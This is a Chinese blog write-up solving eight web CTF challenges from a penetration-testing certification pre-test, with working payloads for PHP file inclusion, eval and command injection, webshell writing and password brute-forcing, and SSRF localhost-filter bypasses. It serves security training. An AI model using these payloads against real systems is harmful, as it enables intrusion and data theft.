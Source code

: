# PTS 谷安预报名测试


&lt;!--more--&gt;

最近想考PTS，想先了解一下相关内容，朋友就给我发了一个谷安的问卷调查，上面有些CTF题，做着玩玩。



题目来源：

谷安学院CISP-PTS渗透测试专家认证-预报名测试
https://ks.wjx.top/jq/94623813.aspx

&gt; 问卷为谷安学院渗透测试专家CISP-PTS认证预报名测试题。 
&gt;
&gt; 3道实操题目答对2道即可报名PTS。



## 1、POST&amp;GET

题目链接：http://118.195.198.108:9997/

&gt; :bulb: hint：
&gt;
&gt; 请以get方式提交a=1 post方式提交b=2给服务器

Poc:

```http
POST /?a=1 HTTP/1.1
Host: 118.195.198.108:9997
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

b=2
```

返回key，`key1:T0kS7r3c`



## 2、include

题目链接：http://118.195.198.108:9998/

&gt; :bulb:Hint:
&gt;
&gt; ```php
&gt; &lt;?php
&gt; show_source(__FILE__);
&gt; echo $_GET[&#39;hello&#39;];
&gt; $page=$_GET[&#39;page&#39;];
&gt; //while (strstr($page, &#34;php://&#34;)) {
&gt; //    $page=str_replace(&#34;php://&#34;, &#34;&#34;, $page);
&gt; //}
&gt; include($page);
&gt; ?&gt;
&gt; ```

利用点就是`include($page);`，注释中提示了`php://`伪协议

Poc:

```
?hello=&amp;page=php://filter/read=convert.base64-encode/resource=flag.php 
?hello=&amp;page=data://text/plain,&lt;?php system(&#39;ls&#39;);?&gt;
```

考点：文件包含漏洞，伪协议

```http
POST /?hello=&amp;page=php://input HTTP/1.1
Host: 118.195.198.108:9998
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

&lt;?php system(&#39;cat flag.php&#39;);?&gt;
```





## 3、Hacked by Alphabug

题目链接：http://118.195.198.108:9999/

&gt; :bulb: Hint:
&gt;
&gt; ```php
&gt; 0 &lt;?php
&gt;     #Hacked by Alphabug 
&gt; header(&#34;Content-type:text/html;charset=utf-8&#34;); 
&gt;     /*
&gt;     Hint:
&gt;     get the shell find the key；）\n&#34;;
&gt;     */
&gt;     $sandbox = &#39;/var/www/html/sandbox/&#39; . md5(&#34;M0rk&#34; . $_SERVER[&#39;REMOTE_ADDR&#39;]);
&gt;     mkdir($sandbox,0777,true);
&gt;     chdir($sandbox);
&gt;     echo strlen($_GET[&#39;cmd&#39;]);
&gt;     if (isset($_GET[&#39;cmd&#39;]) &amp;&amp; strlen($_GET[&#39;cmd&#39;]) &lt;= 30) {
&gt;         @exec($_GET[&#39;cmd&#39;]);
&gt;     } else if (isset($_GET[&#39;reset&#39;])) {
&gt;         @exec(&#39;/bin/rm -rf &#39; . $sandbox);
&gt;     }
&gt;     highlight_file(__FILE__);
&gt; echo &#34;&lt;br /&gt; IP : {$_SERVER[&#39;REMOTE_ADDR&#39;]}&#34;;
&gt; 
&gt; ?&gt;
&gt; 
&gt; IP : xxxxxx
&gt; ```



`md5(&#34;M0rk&#34; . $_SERVER[&#39;REMOTE_ADDR&#39;])`算出自己的sandbox地址。

通过`cmd`进行写shell，为了及时发现自己的错误，可以先写txt，再通过cp命令转成php

```php
?cmd=echo&#43;&#39;&lt;?php&#39;&gt;&gt;i.txt
?cmd=echo&#43;&#39;$a=$_POST[&#34;a&#34;];&#39;&gt;&gt;i.txt
?cmd=echo&#43;&#39;eval($a);&#39;&gt;&gt;i.txt
?cmd=cp&#43;i.txt&#43;i.php
```

连接shell，获取flag



## 4、密码是什么呢？

&gt; :bulb:Hint
&gt;
&gt; 密码是什么呢？
&gt; &lt;?php @eval($_POST[&#39;?&#39;]);?&gt;

暴破一句话木马的连接密码

PHP一句话可以执行PHP命令，为了方便暴破，我们可以使用PHP echo输出内容，改变响应包的大小来做区分。

```http
POST / HTTP/1.1
Host: 118.195.198.108:20001
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

cmd=echo 123456789;
```

对cmd参数加标记，进行暴破，观察响应包大小变化，最后变化的就是密码，密码为pass

进行命令控制，读取flag

```
pass=echo `ls`;
pass=echo `cat 3daddreEt30Nx.txt`;
```



## 5、var_dump

&gt; :bulb:Hint
&gt;
&gt; ```php
&gt; Warning: var_dump() expects at least 1 parameter, 0 given in /var/www/html/index.php(4) : eval()&#39;d code on line 1
&gt; &lt;?php 
&gt;     #error_reporting(0);
&gt;     $a = @$_REQUEST[&#39;hello&#39;]; 
&gt;     eval( &#34;var_dump($a);&#34;); 
&gt;     show_source (__FILE__); 
&gt; ?&gt; 
&gt; ```

命令注入，闭合`var_dump`

POC：

```
/?hello=);echo`ls`;//
/?hello=);echo`cat x8kwjkzp1ik.txt`;//
```



## 6、curl_exec

&gt; :bulb:Hint
&gt;
&gt; ```php
&gt; &lt;?php
&gt; error_reporting(0);
&gt; highlight_file(__FILE__);
&gt; $url=$_POST[&#39;url&#39;];
&gt; $x=parse_url($url);
&gt; if($x[&#39;scheme&#39;]===&#39;http&#39;||$x[&#39;scheme&#39;]===&#39;https&#39;){
&gt;     if(!preg_match(&#39;/localhost|127.0.0.1/&#39;,$x[&#39;host&#39;])){
&gt;         $ch=curl_init($url);
&gt;         curl_setopt($ch, CURLOPT_HEADER, 0);
&gt;         curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
&gt;         $result=curl_exec($ch);
&gt;         curl_close($ch);
&gt;         echo ($result);
&gt;     }else{
&gt;      die(&#39;hacker&#39;);
&gt;     }
&gt; }elseif ($x[&#39;scheme&#39;]== NULL){
&gt;     die(&#39;&#39;);
&gt; }else {
&gt;     die(&#39;oh no hacker&#39;);
&gt; }
&gt; 
&gt; ?&gt;
&gt; //flag.php
&gt; ```

`url=http://xxxxxx/flag.php`

考点，对localhost、127.0.0.1的绕过

```
127.0.0.1
十进制整数：url=http://2130706433/flag.php
十六进制：url=http://0x7F.0.0.1/flag.php
八进制：url=http://0177.0.0.1/flag.php
十六进制整数：url=http://0x7F000001/flag.php
缺省模式：127.0.0.1写成127.1
CIDR：url=http://127.127.127.127/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
```

经过尝试，只有如下成功绕过，其他会造成400报错

```
url=http://127.127.127.127/flag.php
url=http://0x7F000001/flag.php
url=http://0.0.0.0/flag.php
```



## 7、你真的会使用webshell吗？

&gt; :bulb:Hint
&gt;
&gt; 你真的会使用webshell吗？
&gt; &lt;?php @eval($_POST[&#39;cmd&#39;]);?&gt;

不会



## 8、Hello English

&gt; :bulb:Hint
&gt;
&gt; ```php
&gt; &lt;?php
&gt; if( !ini_get(&#39;display_errors&#39;) ) {
&gt;   ini_set(&#39;display_errors&#39;, &#39;On&#39;);
&gt;   }
&gt; error_reporting(E_ALL);
&gt; $lan = $_COOKIE[&#39;language&#39;];
&gt; if(!$lan)
&gt; {
&gt; 	@setcookie(&#34;language&#34;,&#34;english&#34;);
&gt; 	@include(&#34;english.php&#34;);
&gt; }
&gt; else
&gt; {
&gt; 	@include($lan.&#34;.php&#34;);
&gt; }
&gt; $x=file_get_contents(&#39;index.php&#39;);
&gt; echo $x;
&gt; ?&gt;
&gt; ```



Poc:

```
Cookie: language=data:text/plain,&lt;?php phpinfo()%3b?&gt;
Cookie: language=php://filter/read=convert.base64-encode/resource=./flag
```



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/pts-%E8%B0%B7%E5%AE%89%E9%A2%84%E6%8A%A5%E5%90%8D%E6%B5%8B%E8%AF%95/  

